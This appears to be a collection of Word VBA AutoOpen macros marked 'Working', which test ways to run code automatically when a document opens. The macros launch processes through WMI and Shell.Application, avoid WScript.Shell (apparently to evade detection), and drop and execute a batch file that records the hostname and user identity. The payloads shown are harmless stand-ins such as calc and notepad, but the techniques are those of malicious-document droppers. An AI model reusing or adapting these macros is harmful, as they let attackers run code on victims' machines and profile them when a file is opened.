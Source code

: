 Working
Sub AutoOpen()
    Open "C:\Users\Public\macro_test_result.txt" For Output As #1
    Print #1, "Word macro ran successfully without using WScript.Shell"
    Close #1
End Sub


Sub AutoOpen()
    GetObject("winmgmts:root\cimv2:Win32_Process").Create "calc.exe"
End Sub


Sub AutoOpen()
    GetObject("winmgmts:root\cimv2:Win32_Process").Create "calc.exe"
End Sub

Sub AutoOpen()
    Dim shell
    Set shell = CreateObject("Shell.Application")
    shell.ShellExecute "notepad.exe"
End Sub
------------------------------------------------------------
Sub AutoOpen()
    Dim fso
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set outFile = fso.CreateTextFile("C:\Users\Public\getinfo.bat", True)
    outFile.WriteLine "@echo off"
    outFile.WriteLine "hostname > C:\Users\Public\hostinfo.txt"
    outFile.WriteLine "whoami >> C:\Users\Public\hostinfo.txt"
    outFile.WriteLine "echo Date: %date% >> C:\Users\Public\hostinfo.txt"
    outFile.Close
End Sub



Sub AutoOpen()
    CreateObject("Shell.Application").ShellExecute "C:\Users\Public\getinfo.bat"
End Sub






